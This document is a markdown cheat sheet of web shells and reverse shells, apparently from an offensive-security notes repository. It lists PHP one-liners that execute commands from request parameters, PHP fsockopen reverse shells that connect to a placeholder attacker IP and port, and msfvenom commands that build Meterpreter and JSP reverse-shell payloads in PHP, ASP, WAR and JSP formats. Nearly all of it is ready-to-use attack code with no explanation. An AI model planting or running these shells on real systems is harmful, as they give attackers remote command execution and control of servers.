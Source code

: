 # Web Shells

## PHP Shells

```php
<?php system($_REQUEST['cmd']); ?>
123.php?cmd=[COMMAND]
```
```php
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);system("/bin/sh -i <&3 >&3 2>&3");'
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);passthru("/bin/sh -i <&3 >&3 2>&3");'
```
```php
php -r '$sock=fsockopen("[IP]",[PORT]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

## Meterpreter Reverse Shell
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].php; cat [NAME].php | pbcopy && echo '<?php ' | tr -d '\n' > [NAME].php && pbpaste >> [NAME].php
```

##### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].php
```

##### ASP/ASPX
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f asp > [NAME].asp
```

##### WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > [NAME].war
```

##### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].jsp
```
